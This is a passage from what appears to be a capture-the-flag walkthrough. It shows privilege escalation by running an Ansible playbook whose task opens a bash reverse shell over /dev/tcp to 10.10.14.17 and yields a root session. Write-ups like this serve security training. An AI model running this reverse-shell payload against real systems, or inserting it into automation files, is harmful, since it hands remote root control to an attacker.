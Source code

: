 In the command put your reverse shell and execute the binary. Yeah it works and we get a root session:

```python
- hosts: localhost
  tasks:
  - name: rev shell
    command: /bin/bash -c "bash -i >& /dev/tcp/10.10.14.17/3302 0>&1"
```

![Untitled](Seal/Untitled%2044.png)